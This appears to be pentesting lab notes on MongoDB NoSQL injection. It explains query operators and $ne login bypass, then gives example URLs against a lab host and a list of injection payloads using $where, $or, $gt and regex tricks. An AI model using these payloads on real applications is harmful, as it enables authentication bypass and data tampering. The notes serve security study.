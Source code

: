 # NoSQLi

## NoSQLi

{% hint style="info" %}
NoSQL injection is a web security vulnerability that allows the attacker to have **control over the** **database**.

A NoSQL injection happens by sending queries via **untrusted** and **unfiltered** web application input, which leads to leaked unauthorized information.

In addition, the attacker can use the NoSQL injection to perform various operations such as **modifying data, escalating privileges, DoS attacks**, and others.
{% endhint %}

### Bypassing login pages

Connect to the database and then look for a certain **username : password** IF they exist in the collection (_in the database_), then we have a valid entry.

The following is the query that is used in the web applications used on our login :

```sql
db.users.find({query})
db.users.findOne(query)
```

Functions where the query is JSON data that's send via the application :

```json
{"username": "admin", "password":"adminpass"}
```

**MongoDB operators heavily used in the injections :**

* `$eq` - matches records that equal to a certain value.
* `$ne` - matches records that are not equal to a certain value.
* `$gt` - matches records that are greater than a certain value.
* `$where` - matches records based on Javascript condition.
* `$exists` - matches records that have a certain field.
* `$regex` - matches records that satisfy certain regular expressions.

#### `$ne`

Inject a JSON objection **{"$ne": "XYZ"}** in the **password** field, and change the logic to become as follows :

```
# Similar to admin'--
# Ignores the password input
Instructing MongoDB to find a document (user) with a username equal to **admin** and his password is not equal to **xyz**, which turns this statement to TRUE because the admin's password is not xyz.
```

In the case, we wanted to log in to a system as another user who is not admin :

* _Instruct MongoDB to find a document that its username is not equal to admin and its password is not equal to xyz, which returns the statement as true._

![](<../../../.gitbook/assets/image (143).png>)

### Exploiting NoSQL injection

```bash
 http://example.thm.labs/search?username=admin&role[$ne]=user
 http://example.thm.labs/search?username=ben&role=user
 http://example.thm.labs/search?username[$ne]=ben&role=user
 
# On Login pages / search bars
admin' || 'a'=='a
```

#### MongoDB payloads

```plsql
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```

